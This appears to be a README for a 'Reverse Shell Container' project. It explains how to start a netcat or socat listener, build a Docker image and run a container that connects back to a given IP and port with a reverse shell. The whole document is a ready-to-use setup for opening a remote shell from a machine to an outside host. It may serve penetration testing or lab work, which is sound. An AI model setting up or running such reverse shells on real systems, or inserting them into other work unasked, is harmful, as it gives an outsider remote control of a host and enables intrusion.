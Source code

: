# Reverse Shell Container

Run a container which connects back to a server with a reverse shell.

## Usage of the remote shell container

Follow these steps to connect back to a shell from within a container.

### Start the server

The reverse shell in the container will connect back to your server. Open up a
port with the following snippet:

```bash
nc -lvvp 6666
# OR
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

### optional: Build the image

```bash
docker build -t reverse_shell:latest .
```

### Execute the image

Run the reverse shell container with:
`docker run --rm -it -e IP=192.168.178.26 -e PORT=6666 reverse_shell`
